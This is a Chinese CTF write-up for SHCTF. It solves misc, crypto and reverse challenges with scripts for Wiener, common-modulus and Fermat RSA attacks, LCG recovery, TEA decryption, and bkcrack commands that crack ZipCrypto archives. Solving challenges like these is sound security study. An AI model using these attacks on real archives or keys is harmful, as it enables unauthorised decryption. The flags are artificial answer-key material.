

翻翻wp的时候偶然看到了shctf，原来当时写的并不少，遂打算发出来

其实感觉质量还不错的，只是说crypto的md5碰撞...这种题个人感觉没有太大意义，纯比拼谁的电脑性能好（？）

反正我当时没爆出来...hashclash至今找不到编译好的版本也是没绷住。

***


## misc

### Evan

> so作为一位资深的CTF女师傅，却是个乙游的狂热爱好者，这是她珍藏已久的照片，找出flag

png后面藏zip，随波逐流自动修复伪加密，得到flag。

`SHCTF{Evan_1s_s0_h4nds0me!}`


### 签到

> 扫码关注公众号，并发送：**『马』上「赢」盛世山河**
>
> 即可获取本题flag

`SHCTF{WiSh1ng_y0u_@_HaPpy_NEw_Ye@r_1n_Adv@nCe!}`


###  不止二维码


扫二维码啥也没有，pngcheck,zsteg,exiftool都没有异常，打开stegsolve，发现藏了三张二维码，有点新奇

FLAG_PART_1: SHCTF{55a23d24-

FLAG_PART_2: ABBB/AABBB/AAAAA/BBBBB/ABBBBA/BBBBA/B/AABBB/ABBB

FLAG_PART_3: MkZkbDg3ZlY3ZEQxalNGenQyZUFYT3E0NmRrTXFV

part3直接随波逐流一把梭也行，得到-942e-bdd}

part2看起来像培根但是不是，长度不对，卡了好一会，看着其实挺像uuid之类的格式

按照摩斯密码解密得到J250'9T2J显然不对，后来终于想到AB反过来，得到了B705-4E7B

别兴奋，改成小写

`SHCTF{55a23d24-b705-4e7b-942e-bdd}`


### 奇怪数据

很明显是RGB数据

随波逐流莫名其妙罢工了，只好自己写脚本了

先在notepad++把;全部替换为\n，再跑脚本。

```python
import re
import argparse
from PIL import Image

TUPLE_RE = re.compile(r"^\s*\(\s*(\d+)\s*,\s*(\d+)\s*,\s*(\d+)\s*\)\s*$")

def load_pixels(txt_path: str):
    pixels = []
    with open(txt_path, "r", encoding="utf-8", errors="ignore") as f:
        for i, line in enumerate(f, 1):
            line = line.strip()
            if not line:
                continue  # 忽略空行
            m = TUPLE_RE.match(line)
            if not m:
                raise ValueError(f"第 {i} 行格式不对：{line!r}（期望形如 (255,255,255) ）")
            r, g, b = map(int, m.groups())
            if not (0 <= r <= 255 and 0 <= g <= 255 and 0 <= b <= 255):
                raise ValueError(f"第 {i} 行 RGB 越界：{r},{g},{b}")
            pixels.append((r, g, b))
    return pixels

def rgb_txt_to_png(txt_path: str, width: int, height: int, out_path: str):
    pixels = load_pixels(txt_path)
    need = width * height
    if len(pixels) < need:
        raise ValueError(f"像素不够：需要 {need} 个，但只有 {len(pixels)} 个")
    if len(pixels) > need:
        # 多出来的直接忽略（也可以改成报错）
        pixels = pixels[:need]

    img = Image.new("RGB", (width, height))
    img.putdata(pixels)  # row-major：先填第一行，再第二行
    img.save(out_path)
    print(f"[+] Saved: {out_path} ({width}x{height})")

def main():
    ap = argparse.ArgumentParser(description="Convert RGB tuples (one per line) into an image.")
    ap.add_argument("input", help="input txt file, each line: (r,g,b)")
    ap.add_argument("-w", "--width", type=int, required=True, help="image width")
    ap.add_argument("-h", "--height", type=int, required=True, help="image height")
    ap.add_argument("-o", "--out", default="recovered.png", help="output png path")
    args = ap.parse_args()

    rgb_txt_to_png(args.input, args.width, args.height, args.out)

if __name__ == "__main__":
    main()
```

转图片得到二维码，扫码得到base64字符串**U0hDVEZ7VGgzX1F1ZXN0MW9uNV9BcmVfVG9vX0QxZmZpY3UxdCEhISF9**

`SHCTF{Th3_Quest1on5_Are_Too_D1fficu1t!!!!}`


### 珍贵的Signature

> 小查是Lsccc的超级fan，在一次线下赛见面会上好不容易得到了Lsccc的Signature，视若珍宝。然而很久之后，他突然发现Signature消失了，原图和备份都不见踪影。于是他四处翻找，仅在回收站找到一个用过的z1p，回想起了一些之前的记忆，于是他开始...

doc，扔给随波逐流修一下伪加密。

解压在/word/_rels发现一个巨大的doc文件，打开一看是base64的图片格式，cyberchef解码转hex保存即可

随后提取频域水印即可得到base64字符串

**YwcI9sMWsxbmdfTHNjY2N9
U0hDVEZ7N2hhbmtfeTB1X2**

U0hDVEZ7N2hhbmtfeTB1X2Ywcl9sMWsxbmdfTHNjY2N9解码可得flag。

`SHCTF{7hank_y0u_f0r_l1k1ng_Lsccc}`

随便玩玩竟然捡了一个三血🥉，有点意思


### Office

直接解压就好了

/word/document.xml发现base64字符串

**lRy1m2qYkmewkTqDrneCoTCQoUiFqm7zqoeRoT7DqDCAqm7QsTqRuT3PqjWUt5e7**

解码不对，在/word/theme/alphabet发现自定义字符集

**+/0-6a-zA-Z7-9=**

扔到cyberchef，得到flag。

`SHCTF{MS_Office_is_the_best_office_software.wps}`


### 资源平权！

> 苕皮哥在网上下载资源时遇到了无良资源站，从某克网盘下了一个小时，结果发现压缩包的解压密码竟然还要支付 1 个比特币？？？

一眼明文攻击啊

```bash
echo -n "0E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000" | xxd -r -ps > mingwen

./bkcrack.exe -C 120250_CrackM3.zip -c flag.exe -p mingwen -o 64
bkcrack 1.8.0 - 2025-08-18
[12:07:50] Z reduction using 56 bytes of known plaintext
100.0 % (56 / 56)
[12:07:50] Attack on 140645 Z values at index 71
Keys: 60101051 4cba82cb 48eac20c
33.4 % (46942 / 140645)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 46942
[12:08:10] Keys
60101051 4cba82cb 48eac20c

./bkcrack.exe -C 120250_CrackM3.zip -c flag.exe -k 60101051 4cba82cb 48eac20c -d flag.exe
bkcrack 1.8.0 - 2025-08-18
[12:08:52] Writing deciphered data flag.exe
Wrote deciphered data (not compressed).

./flag.exe
Hello and welcome,CTFer!
The flag is: SHCTF{002c158f-b4d2-4e14-bbbb-b5141bca8cb9}
```

`SHCTF{002c158f-b4d2-4e14-bbbb-b5141bca8cb9}`


### Base64Encryption

> 看我把Base64的字符表全都打乱了!只要别人解不开,那就是加密?

1）先把自定义 Base64 字符表还原出来

压缩包里同时给了：

Readme.txt（明文）

Readme.txt.enc（密文）

而且两者长度刚好一致（196），说明 .enc 就是“同一份明文做 base64，但把 64 表换成了乱序表”。

做法：
对 Readme.txt（UTF-8）做标准 base64得到 std_b64，再与 Readme.txt.enc 逐字符对齐，就能得到大量映射 标准字符 -> 乱序字符。
还缺的少数字符再用 png.png.enc 校验：哪个映射能让解出来的 PNG 正常被 PIL 打开，哪个就是对的。最终补全得到完整 64 表映射。

2）解 png.png.enc 得到图片（PNG）

用“乱序表 -> 标准表”反向替换后，标准 base64 解码即可得到真正的 PNG。

图片内容是一张二维码，上面写着 Just Do It。

关键点：二维码需要**上下翻转（flip vertical）**才能正常识别，解出来的字符串是：

password: base64_15_n0t_3ncrypt10n

3）解 flag.zip.enc 得到 AES-zip，再用密码解开

flag.zip.enc 同样先用乱序 base64 解回 bytes，得到一个 zip。
这个 zip 的压缩方法是 99（WinZip AES），Python 自带 zipfile 不支持直接解 AES，所以我用 pycryptodome 按 WinZip AES 规范（PBKDF2-SHA1 1000次 + AES-CTR + HMAC-SHA1(10 bytes)）解密出其中的 flag.txt.enc 内容。

拿上面的二维码密码：base64_15_n0t_3ncrypt10n 成功解出 flag.txt.enc。

flag.txt.enc 里又是一段“乱序 base64”，再用同一套表还原并解码即可得到 flag。

`SHCTF{fbf655a2-0661-4665-ac56-2331ca65e887}`


### 薇薇安的美照

> 学了一天化学的Zero，决定去打打绝区零里，flag格式：SHCTF{**}记得flag是大写的呢

ez题，jpg尾藏了信息

SHCTF{MV84Xzc0XzIwXzdfOTJfMTZfNV8xOF84Xzc=}

解码得到SHCTF{1_8_74_20_7_92_16_5_18_8_7}

题干说**学化学**，把数字变成原子序数对应的符号，并且大写，可得flag。

玩的挺花hhh

`SHCTF{H_O_W_CA_N_U_S_B_AR_O_N}`


### 滴答滴答

> 不，这是什么声音，好乱啊

https://sstv-decoder.mathieurenaud.fr/

sstv解码。（qsstv报错格式不支持，只好网上搞了）

`SHCTF{Radio_is_just_too_much_fun}`	


### Open my puff

>如果你也会开锁^_~

1.txt典型的零宽隐写，注意这里有四种零宽字符。解密得到

```text
keyA:12345678
keyB:qwertyui
keyC:asdfghjk
```

根据题目名字或者png尾部的提示，h1nt:openpuff4.01，下载隐写工具openpuff，输入三个key可得一个azaa.zip。

解压，发现给了一个flag.txt和flag.zip，一眼看过去8+4个?+4，像明文攻击。检查一下果然是zipcrypto。

那还说啥，干干干

```bash
(base) ┌──(rekjo㉿LAPTOP-BMERJF8L)-[/mnt/e/azaa]
└─$ ./bkcrack.exe -C flag.zip -c flag.txt -x 0 6e69696d6d636377 -x 12 7a666970
bkcrack 1.8.0 - 2025-08-18
[12:40:46] Z reduction using 1 bytes of known plaintext
100.0 % (1 / 1)
[12:40:46] Attack on 2818048 Z values at index 6
Keys: 4543d810 f89b3d67 531a63b0
32.6 % (919157 / 2818048)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 919157
[12:50:12] Keys
4543d810 f89b3d67 531a63b0

(base) ┌──(rekjo㉿LAPTOP-BMERJF8L)-[/mnt/e/azaa]
└─$ ./bkcrack.exe -C flag.zip -c flag.txt -k 4543d810 f89b3d67 531a63b0 -d flag.txt
bkcrack 1.8.0 - 2025-08-18
[13:20:52] Writing deciphered data flag.txt
Wrote deciphered data (not compressed).
```

`SHCTF{N3ur4l_Gl1tch_1n_Th3_5yst3m}`


### 问卷反馈

`SHCTF{th@nK_y0u_FoR_pAr7icipat1n9_in_SHCTF_3rd}`


### 提问前请先搜索

> 很多人认为 CTF 只是关于“攻击”的艺术，但其实它更是关于“学习”的艺术
>
> 这里没有复杂的代码，也没有高深的算法，只有一篇你需要反复研读的文章
>
> 如果你无法通过**搜索**解决报错，你就无法通过**提问**获得帮助
>
> 请静下心来仔细阅读，你会有收获的
>
> > tips: 可能会分不清大写O和数字0



Ctrl+F你就输了

我也不知道为什么明明是乱码能显示出flag真神奇

`SHCTF{DO_NoT_ReIY_oN_al}`


## Crypto

### 古典也颇有韵味啊

> 你是维吉尼亚还是维多利亚？倒是有点共同点（结果请将flag头改成SHCTF{}提交）

高级东西，第一次知道autokey vigenere

```python
def is_alpha(c: str) -> bool:
    return ("a" <= c <= "z") or ("A" <= c <= "Z")

def shift(c: str) -> int:
    return ord(c.lower()) - ord("a")

def clean_key(key: str) -> list[str]:
    k = [ch.lower() for ch in key if is_alpha(ch)]
    if not k:
        raise ValueError("Key must contain at least one letter A-Z.")
    return k

def vig(text: str, key: str, mode: str, op: str) -> str:
    primer = clean_key(key)
    out, ki = [], 0
    if mode == "auto":
        stream = primer[:]

    for ch in text:
        if not is_alpha(ch):
            out.append(ch)
            continue

        kch = primer[ki % len(primer)] if mode == "repeat" else stream[ki]
        x, k = shift(ch), shift(kch)

        if op == "e":
            y = (x + k) % 26
            out_ch = chr(y + ord("a"))
            if mode == "auto":
                stream.append(ch.lower())
        else:  # op == "d"
            y = (x - k) % 26
            out_ch = chr(y + ord("a"))
            if mode == "auto":
                stream.append(out_ch)

        out.append(out_ch.upper() if ch.isupper() else out_ch)
        ki += 1

    return "".join(out)

def ask(prompt: str, valid: set[str]) -> str:
    while True:
        s = input(prompt).strip().lower()
        if s in valid:
            return s
        print(f"Choose one of: {', '.join(sorted(valid))}")

def main():
    text = input("text> ")
    key = input("key > ")
    mode = ask("mode [repeat/auto]> ", {"repeat", "auto"})
    op = ask("op [e/d]> ", {"e", "d"})
    try:
        print(vig(text, key, mode, op))
    except Exception as e:
        print("error:", e)

if __name__ == "__main__":
    main()
```

`shctf{cl@ssic_c2ypto_also_crypt0}`


### Ez_RSA

> e怎么这么大啊

```python
from Crypto.Util.number import getPrime,bytes_to_long
from gmpy2 import invert
from secret import flag

m = bytes_to_long(flag)

p = getPrime(512)
q = getPrime(512)
n = p*q
phi = (p-1) * (q-1)
e = getPrime(1019)
d = invert(e, phi)

c = pow(m,e,n)
"""
n = 107464134871680646151655304067173578951022679613817744422854142736895193478923970402314237869266898585661396817719803005109183572552933963881756199330890085692291647461683934019264121186823772581796061998307778635680038707808422026396560620912393186072263186503236380890048319797143644270579169484448179083299
e = 3924586561728843234261049280560557566669922961436496251423249382498887294225142535297862819865029081145630384268177735578769958711287734205364353929040337350836000661255957087233897675207507752217828489549059197109918195953230752720210793300168746820366115929509596904295875481061789801178045962611893883689
c = 4557192604704814579224198928010541193712311907197292139423304635523945088581321950910727673367241811197226152299201713883344661436550024661781925551129803469824570154317098612833694631836257698682075695287756551674264966935203485636255394639674521955953445322493019052791894426980946209383266707043869522774
"""
```

确实可疑，想到了wiener攻击

```python
from fractions import Fraction
from math import isqrt

n = 107464134871680646151655304067173578951022679613817744422854142736895193478923970402314237869266898585661396817719803005109183572552933963881756199330890085692291647461683934019264121186823772581796061998307778635680038707808422026396560620912393186072263186503236380890048319797143644270579169484448179083299
e = 3924586561728843234261049280560557566669922961436496251423249382498887294225142535297862819865029081145630384268177735578769958711287734205364353929040337350836000661255957087233897675207507752217828489549059197109918195953230752720210793300168746820366115929509596904295875481061789801178045962611893883689
c = 4557192604704814579224198928010541193712311907197292139423304635523945088581321950910727673367241811197226152299201713883344661436550024661781925551129803469824570154317098612833694631836257698682075695287756551674264966935203485636255394639674521955953445322493019052791894426980946209383266707043869522774

def cont_frac(a, b):
    cf = []
    while b:
        cf.append(a // b)
        a, b = b, a % b
    return cf

def convergents(cf):
    conv = []
    for i in range(len(cf)):
        f = Fraction(0, 1)
        for a in reversed(cf[:i+1]):
            f = a + (Fraction(1, f) if f.numerator else Fraction(0, 1))
        conv.append((f.numerator, f.denominator))
    return conv

def is_square(x):
    if x < 0:
        return False
    r = isqrt(x)
    return r * r == x

def wiener(e, n):
    cf = cont_frac(e, n)
    for k, d in convergents(cf):
        if k == 0:
            continue
        if (e*d - 1) % k != 0:
            continue
        phi = (e*d - 1) // k
        s = n - phi + 1
        disc = s*s - 4*n
        if is_square(disc):
            t = isqrt(disc)
            p = (s + t) // 2
            q = (s - t) // 2
            if p*q == n:
                return d, p, q
    return None

def long_to_bytes(x):
    out = bytearray()
    while x:
        out.append(x & 0xff)
        x >>= 8
    return bytes(reversed(out))

d, p, q = wiener(e, n)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

`SHCTF{e950ea87356fc62ce6323253a672680e}`


### TE

> 贝祖???

```python
from Crypto.Util.number import *
import random
from secret import flag


p, q = getPrime(512), getPrime(512)
n = p * q

e1 = random.getrandbits(32)
e2 = random.getrandbits(32)

print(f'{e1 = }')
print(f'{e2 = }')

m = bytes_to_long(flag)
c1 = pow(m, e1, n)
c2 = pow(m, e2, n)

print(f'{n = }')
print(f'{c1 = }')
print(f'{c2 = }')


'''
e1 = 740153575
e2 = 2865243571
n = 136622832042809215646904518487100682818433235485047740604612449039291802103378650845690420527029208661555957840623544220907967041438993189882681277161437473818861280518627112617436473837014181944318974950710633690704711613682306786783611123590732850783007770603201513394002330426718261667816328404673167404897
c1 = 56187319559060690757544481076112948328826527679002578544683022765347668056620384831778729489197135280950314627119815558644487151419126272267146826463912815062442590228193753706779325992179790583792001196548329204758137104234662611732735693150331594645734142941475121453410494160975503459516324097097434727685
c2 = 45042409947237296641429229414329516753664139389113206575966507524195434716702812078844474626406932213486611190698953613898299571473488550533642524208077653917354039305279692307471529748408234617430389423630015569730564585740596832844917494965974840512412454337766930330443409183293514761911902752336129193323
'''
```

两组密文，共模攻击

```python
from Crypto.Util.number import inverse, long_to_bytes
import math

e1 = 740153575
e2 = 2865243571
n = 136622832042809215646904518487100682818433235485047740604612449039291802103378650845690420527029208661555957840623544220907967041438993189882681277161437473818861280518627112617436473837014181944318974950710633690704711613682306786783611123590732850783007770603201513394002330426718261667816328404673167404897
c1 = 56187319559060690757544481076112948328826527679002578544683022765347668056620384831778729489197135280950314627119815558644487151419126272267146826463912815062442590228193753706779325992179790583792001196548329204758137104234662611732735693150331594645734142941475121453410494160975503459516324097097434727685
c2 = 45042409947237296641429229414329516753664139389113206575966507524195434716702812078844474626406932213486611190698953613898299571473488550533642524208077653917354039305279692307471529748408234617430389423630015569730564585740596832844917494965974840512412454337766930330443409183293514761911902752336129193323

def egcd(a, b):
    if b == 0:
        return 1, 0, a
    x, y, g = egcd(b, a % b)
    return y, x - (a // b) * y, g

a, b, g = egcd(e1, e2)
assert g == 1

part1 = pow(c1, a, n)
if b < 0:
    part2 = pow(inverse(c2, n), -b, n)
else:
    part2 = pow(c2, b, n)

m = (part1 * part2) % n
print(long_to_bytes(m))
```

`SHCTF{lYQkkk3ud4hqV3fZtPWH077vhI2Bqcz19ZRxf1vwRU8Ej4uvrJcF02Sd4bzjxqUH5096qWDIdTyEJ$JzF}`


### 椭圆曲线？？？！！！

> 仔细观察，看看能发现什么


`SHCTF{205436e5-d598-4859-a237-d3f40e7ed45b}`


### not_eight_length

> 并不是所有的题目都是8位哦

```python
from Crypto.Util.number import *
from sympy import *
from secret import encrypted_flag


m = bytes_to_long(encrypted_flag)
p = getPrime(512)
temp = nextprime(p)
q = nextprime(temp)
n = p * q
e = 65537
c = pow(m, e, n)

print(f'n = {n}')
print(f'e = {e}')
print(f'c = {c}')


# n = 172113078605688993167549425692325605693719693815361211139292482064751327114103720980024048929660587708361336638391782482562146750015275689746844657810313957504514376746631004470588767450715447808496931019899675426647981223953742448155335425954936981689508246039354976739386690722681509534696120714425567962527
# e = 65537
# c = 47611886444337000128826989676221463775339201602510220886566675518701473035795983698414894648685567473325732994652173596155832091773084566434572294009136327143103984205257862772844337876748271318723897875683699389776414143689503392203746843332334862282735760778003407162335426111769147991087343730761557771446
```

```python
import math
from sympy import mod_inverse
from sympy.ntheory.primetest import is_square
from Crypto.Util.number import long_to_bytes

n = 172113078605688993167549425692325605693719693815361211139292482064751327114103720980024048929660587708361336638391782482562146750015275689746844657810313957504514376746631004470588767450715447808496931019899675426647981223953742448155335425954936981689508246039354976739386690722681509534696120714425567962527
e = 65537
c = 47611886444337000128826989676221463775339201602510220886566675518701473035795983698414894648685567473325732994652173596155832091773084566434572294009136327143103984205257862772844337876748271318723897875683699389776414143689503392203746843332334862282735760778003407162335426111769147991087343730761557771446

# Fermat factorization (works because p,q are close)
A = math.isqrt(n)
if A*A < n:
    A += 1
B2 = A*A - n
assert is_square(B2)
B = math.isqrt(B2)

p = A - B
q = A + B
assert p*q == n

phi = (p-1)*(q-1)
d = mod_inverse(e, phi)

m = pow(c, int(d), n)
pt = long_to_bytes(m)

print("plaintext hex =", pt.hex())
```

Fermat攻击可得hex`14e443a91bdb97399a6164cdc2d738b2355ad1cb8c2b7138cb856b5c79193467859b6c2c5cfd`

为啥不是可读字节呢？题干提示了：并不是所有的题目都是8位哦

根据misc的经验，很可能是每7bit转hex。发现还需要亿点点小处理即可得到flag。

```python
pt = bytes.fromhex("14e443a91bdb97399a6164cdc2d738b2355ad1cb8c2b7138cb856b5c79193467859b6c2c5cfd")

bits = ''.join(f'{b:08b}' for b in pt)

k = 3  # 关键：对齐偏移 3 位
bb = bits[k:]
L = (len(bb)//7)*7
out = bytes(int(bb[i:i+7], 2) for i in range(0, L, 7))

print(out.decode())
```

`SHCTF{99f4a238-9bd5-498a-b8ea-5cd243a36a19}`


### hash1

> Oh,my apples are missing,can you help me get them back?

```text
4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa200a8284bf36e8e4b55b35f427593d849676da0d1555d8360fb5f07fea2,4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa202a8284bf36e8e4b55b35f427593d849676da0d1d55d8360fb5f07fea2
```

经典数据，直接交了

`SHCTF{cOn9R4TUIaT1#ns_b#tH_h@shl_APple5_4r3_VErY_dEIicIouS_L#L}`


### hash2

> I made a little sign on my apples. Can you find them?

```text
 41414141414141414141414141414141000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000153c54562d2193ce8a08cd08cb8a437ca2e157fccd787c610efe7be9332a41d0d8eba9bd5a1fc8b9c71941d21504af4998cf72e8a99a95a67377b64b4f7869b705efdd32f062cb98bf2614859157d59e4943898f489da1c94bc53060ba5fa8b7d35538f89787fd157705867a34fc0ed7487a671782336aedc13189c86b8a215e,41414141414141414141414141414141000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000153c54562d2193ce8a08cd08cb8a437ca2e1577ccd787c610efe7be9332a41d0d8eba9bd5a1fc8b9c71941d21584af4998cf72e8a99a95a67377b6cb4f7869b705efdd32f062cb98bf2614859157d59e4943890f489da1c94bc53060ba5fa8b7d35538f89787fd157705867a347c0ed7487a671782336aedc13189486b8a215e
```

https://rivers.chaitin.cn/tools/md5fastcollision

在线碰撞跑一下就行

`SHCTF{@1TH#UGh_HAsHz_ApP13s_HAV3_siGnS_tH3y_arE_stilL_d311clOu5}`


### Stream

> LCCCGGGGG


```python
from secrets import randbits
from secret import FLAG, P_known


def gen():
    while True:
        m = randbits(63) | (1 << 62) | 1
        if m > 2**62:
            break
    a = randbits(62) | 3
    c = randbits(62) | 1
    s0 = randbits(62) | 5
    return m, a, c, s0

def LCG(m, a, c, s0, nblocks):
    x = s0
    out = []
    for _ in range(nblocks):
        x = (a * x + c) % m
        out.append(x)
    return out

def encrypt(m, a, c, s0, plaintext: bytes) -> bytes:
    padlen = (-len(plaintext)) % 8
    pt = plaintext + b'\x00' * padlen
    blocks = [int.from_bytes(pt[i:i+8], 'big') for i in range(0, len(pt), 8)]
    ks = LCG(m, a, c, s0, len(blocks))
    cblocks = [b ^ k for b, k in zip(blocks, ks)]
    return b''.join(cb.to_bytes(8, 'big') for cb in cblocks)

def main():
    m, a, c, s0 = gen()
    cipher  = encrypt(m, a, c, s0,  P_known + FLAG)

    C_known = cipher[:len(P_known)]
    C_flag  = cipher[len(P_known):len(P_known) + len(FLAG)]

    print("P_known =",P_known)
    print("C_known =", C_known.hex())
    print("C_flag  =", C_flag.hex())

if __name__ == "__main__":
    main()


'''

P_know = b'Insecure_linear_congruential_random_number!!!!!!'
C_known = 44e18dfa1acd14aa790fc3bac4ca54c137bcd47bdfc2209a53b83715ecad3e29249845720588cac007bfb94f8476d91a
C_flag  = 1995374a5b64c6696578c1d5bdc6fa3d1e974b813436eab4348db801fb7a6703658eaa4fefa2c6fd6792beb969df8ca70ad87a4f4aea6ca0040d65a3c1e3a5bf2655cafc1e5603a171edc9aa077c0ca264677c351907f35756c14dd7ece428cb424a3804b544ccb53e99935f9bc2d8483dd7587379c99b3542c222008a

'''
```

```python
from math import gcd
from functools import reduce

# --- given by challenge ---
P_known = b'Insecure_linear_congruential_random_number!!!!!!'
C_known_hex = "44e18dfa1acd14aa790fc3bac4ca54c137bcd47bdfc2209a53b83715ecad3e29249845720588cac007bfb94f8476d91a"
C_flag_hex  = "1995374a5b64c6696578c1d5bdc6fa3d1e974b813436eab4348db801fb7a6703658eaa4fefa2c6fd6792beb969df8ca70ad87a4f4aea6ca0040d65a3c1e3a5bf2655cafc1e5603a171edc9aa077c0ca264677c351907f35756c14dd7ece428cb424a3804b544ccb53e99935f9bc2d8483dd7587379c99b3542c222008a"

# --- helpers ---
def egcd(a, b):
    if b == 0:
        return (a, 1, 0)
    g, x, y = egcd(b, a % b)
    return (g, y, x - (a // b) * y)

def invmod(a, m):
    a %= m
    g, x, _ = egcd(a, m)
    if g != 1:
        raise ValueError(f"no inverse for {a} mod {m}, gcd={g}")
    return x % m

def chunk8(b: bytes):
    assert len(b) % 8 == 0
    return [int.from_bytes(b[i:i+8], "big") for i in range(0, len(b), 8)]

def lcg_stream(m, a, c, s0, n):
    x = s0
    out = []
    for _ in range(n):
        x = (a * x + c) % m
        out.append(x)
    return out

def recover_modulus(xs):
    # xs are consecutive outputs X1..Xn (n>=5 recommended)
    # t_i = x_{i+1} - x_i
    ts = [xs[i+1] - xs[i] for i in range(len(xs)-1)]
    # u_i = t_{i+2}*t_i - t_{i+1}^2  (all multiples of m)
    us = []
    for i in range(len(ts)-2):
        u = ts[i+2] * ts[i] - ts[i+1] * ts[i+1]
        if u != 0:
            us.append(abs(u))
    if not us:
        raise ValueError("not enough nonzero u_i to recover modulus")
    return reduce(gcd, us)

def recover_lcg_params(xs, m):
    # xs: consecutive outputs, need at least 3
    x1, x2, x3 = xs[0], xs[1], xs[2]
    a = ((x3 - x2) * invmod(x2 - x1, m)) % m
    c = (x2 - a * x1) % m
    # xs are outputs after one LCG step; original encrypt uses:
    # x1 = (a*s0 + c) mod m  => s0 = (x1 - c) * inv(a) mod m
    s0 = ((x1 - c) * invmod(a, m)) % m
    return a, c, s0

def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes(x ^ y for x, y in zip(a, b))

# --- solve ---
def main():
    C_known = bytes.fromhex(C_known_hex)
    C_flag  = bytes.fromhex(C_flag_hex)

    # pad known plaintext to multiple of 8 like encryption does
    padlen = (-len(P_known)) % 8
    Pk = P_known + b"\x00" * padlen

    P_blocks = chunk8(Pk)
    C_blocks = chunk8(C_known)

    # recover keystream outputs for known part: X_i = P_i xor C_i
    xs = [pb ^ cb for pb, cb in zip(P_blocks, C_blocks)]
    print("[+] recovered outputs X1..Xn:", len(xs))

    # recover modulus m
    m = recover_modulus(xs)
    print("[+] recovered m =", m)

    # recover a,c,s0
    a, c, s0 = recover_lcg_params(xs, m)
    print("[+] recovered a  =", a)
    print("[+] recovered c  =", c)
    print("[+] recovered s0 =", s0)

    # sanity-check: reproduce known outputs
    xs_check = lcg_stream(m, a, c, s0, len(xs))
    assert xs_check == xs, "LCG params failed to reproduce known outputs!"
    print("[+] sanity check passed (reproduced known keystream)")

    # generate keystream for flag part (continue after known blocks)
    # we already used len(xs) outputs; need next outputs for C_flag length
    n_flag_blocks = (len(C_flag) + 7) // 8
    full_stream = lcg_stream(m, a, c, s0, len(xs) + n_flag_blocks)
    ks_flag = full_stream[len(xs):]

    # decrypt C_flag
    pt_flag = bytearray()
    for i in range(n_flag_blocks):
        cb = C_flag[i*8:(i+1)*8]
        k  = ks_flag[i].to_bytes(8, "big")
        pt_flag += xor_bytes(cb, k[:len(cb)])  # last block may be short

    print("[+] FLAG bytes:", pt_flag)
    try:
        print("[+] FLAG str :", pt_flag.decode())
    except UnicodeDecodeError:
        print("[!] FLAG not valid utf-8, raw shown above")

if __name__ == "__main__":
    main()

```

`SHCTF{LLLLLLLLLLLLLLLCCCCCGGGGGGGGG_TGY%JgWOmAM6V5n55w3m*jcPJZjHO8E1VvzrGjT84tXS332D&o4GZe8%KKzEyAngmwwx9bp5dv_O4dPpOvMy1^hM}`


### 隐藏的子集和？

> rt

`SHCTF{2c128cca-9600-4c9a-aeec-bd69e6e27de6}`


## reverse

### trace

> Penner在黑入carry的电脑的时候，用木马记录下了carry电脑上的一个程序的运行过程，你能从运行记录中还原出carry输入的flag吗

题干比较新颖

```python
import struct

MASK = 0xFFFFFFFF
delta = 0x9E3779B9  # 40503<<16 | 31161

target = bytes([
    0x4a, 0xd4, 0x4f, 0x82, 0x37, 0xe8, 0x6d, 0xf9,
    0x55, 0x6e, 0xc5, 0x22, 0x36, 0xb1, 0x38, 0x5b,
    0xc1, 0x8f, 0x27, 0x6a, 0xff, 0x65, 0x85, 0x42,
    0x24, 0xbf, 0x63, 0xde, 0x33, 0xb8, 0x4d, 0x8e,
    0xbc, 0xae, 0xb3, 0x5b, 0x7e, 0x9c, 0x76, 0x11
])

# 从 trace 推出来的 key 构造（exec(4)=乘法, exec(0)=加法, exec(1)=xor）
seed1 = 0x12345678
seed2 = 0xDEADBEEF
k0 = ((seed1 & 0xFFFF) * 0x1337) & MASK
k1 = (seed2 + 0xAAAA) & MASK
k2 = (k0 ^ k1) & MASK
k3 = ((k2 * 2) + 1) & MASK
k = (k0, k1, k2, k3)

def dec_block(v0, v1, k):
    k0, k1, k2, k3 = k
    s = (delta * 32) & MASK
    for _ in range(32):
        v1 = (v1 - (((((v0 << 2) & MASK) + k2) & MASK) ^ ((v0 + s) & MASK) ^ ((((v0 >> 4) & MASK) + k0) & MASK))) & MASK
        v0 = (v0 - (((((v1 << 2) & MASK) + k3) & MASK) ^ ((v1 + s) & MASK) ^ ((((v1 >> 4) & MASK) + k1) & MASK))) & MASK
        s = (s - delta) & MASK
    return v0, v1

pt = b""
for i in range(0, len(target), 8):
    v0, v1 = struct.unpack("<II", target[i:i+8])
    p0, p1 = dec_block(v0, v1, k)
    pt += struct.pack("<II", p0, p1)

print(pt.rstrip(b"\0").decode())
```

